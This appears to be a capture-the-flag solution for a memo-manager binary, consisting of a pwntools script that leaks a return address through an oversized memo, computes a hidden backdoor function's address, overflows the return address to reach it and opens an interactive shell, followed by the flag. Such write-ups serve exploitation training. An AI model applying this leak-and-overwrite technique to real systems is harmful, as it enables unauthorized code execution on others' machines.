 ```python
warnings.filterwarnings("ignore", category=BytesWarning, message="Text is not bytes; assuming ASCII, no guarantees.")

# =======================
# EXPLOIT AFTER THIS
# =======================
r = connect()
offset = 296
payload = b"A" * offset

# get leak
###########################
print(r.recvuntil("> "))
r.sendline("1") # Add Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # pass
print(r.recvuntil(": "))
r.sendline(str(offset)) # memo size
print(r.recvuntil(": "))
r.sendline(payload) # dummy payload to leak return address
print(r.recvuntil("> "))
r.sendline("3") # View, to get leak
print(r.recvuntil(": "))
r.sendline("goodluck") # pass

resp = r.recvline().rstrip()
print(resp)
leak = resp[-8:]
leak = leak.replace(b"A", b"") # replace dummy 'A' from leak
leak = u64(leak.ljust(8, b"\x00"))
print(f"leak (main): {hex(leak)}")
BACKDOOR = leak - 827

# get SHELL
############################
offset = 32
payload = b"A" * offset
payload += p64(BACKDOOR)

print(r.recvuntil("> "))
r.sendline("2") # Edit Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # pass
print(r.recvuntil(": ")) # position
r.sendline(str(1)) # memo size
print(r.recvuntil(": "))
r.sendline(payload) # payload to overwrite ret address and call backdoor()
print(r.recvuntil("> "))
r.sendline("4") # Exit, to call ret

r.interactive()
```
## Flag
`flag{290c84dd-1bcb-496b-a31d-29b20395d3b8}`
